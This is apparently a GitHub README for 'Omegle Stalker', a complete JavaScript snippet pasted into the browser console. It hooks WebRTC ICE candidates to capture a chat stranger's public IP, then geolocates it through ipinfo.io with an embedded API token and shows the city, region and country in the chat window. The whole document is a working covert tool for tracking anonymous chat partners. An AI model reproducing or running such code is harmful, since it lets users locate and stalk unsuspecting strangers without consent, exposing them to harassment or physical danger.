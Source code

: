 # Omegle Stalker
JavaScript script that gets the stranger's location and IP

![Sample Image](./image.png "Image")

**YOU NEED TO DISABLE ADBLOCK IN ORDER TO USE THIS SCRIPT SINCE IT BLOCKS THE REQUESTS.**

## Usage:
Just copy and paste the script in your browser's console

```javascript

window.oRTCPeerConnection = window.oRTCPeerConnection || window.RTCPeerConnection

window.RTCPeerConnection = function (...args) {
    const pc = new window.oRTCPeerConnection(...args)

    pc.oaddIceCandidate = pc.addIceCandidate

    pc.addIceCandidate = function (iceCandidate, ...rest) {
        const fields = iceCandidate.candidate.split(' ')
        if (fields[7] === 'srflx') {
            console.log(fields[4]) // Stranger's IP
            httpGet(fields[4])
        }
        return pc.oaddIceCandidate(iceCandidate, ...rest)

    }

    return pc
}

function httpGet(field) {
    const request = new XMLHttpRequest()

    let url = `https://ipinfo.io/${field}?token=88872609d792b2` // token = your API token

    request.open('GET', url)

    request.onload = function () {
        console.log(JSON.parse(this.responseText))
        console.log('url: ' + url)
        let data = JSON.parse(this.responseText)
        output(`Cidade: ${data["city"]}`)
        output(`Estado: ${data["region"]}`)
        output(`País: ${data["country"]}`)
        output(`IP: ${data["ip"]}`)
    }

    request.onerror = function () { console.log('Request error') }

    request.send()
}

let history = []
function output(str) {
    if (!history.includes(str)) {
        let holder = document.getElementsByClassName('logbox')[0].firstChild

        let new_item = document.createElement('div')
        new_item.className = 'logitem'

        let new_status = document.createElement('p')
        new_status.innerHTML = str
        new_status.className = 'statuslog'

        new_item.appendChild(new_status)
        holder.appendChild(new_item)
        history.push(str)
    }
}

```

## TODO
Will add these features in the future
- [ ] Works as an extension
- [ ] Unlimited requests

## Warning
Currently there is a limit on the requests, and once it gets to its limit, this script will stop working. You can edit your [ip.info](https://ipinfo.io/) API token in order to use it more times.

If you know any free and unlimited ``https`` based geolocation API, please let me know (contact me via Discord)

**YOU NEED TO DISABLE ADBLOCK IN ORDER TO USE THIS SCRIPT SINCE IT BLOCKS THE REQUESTS.**
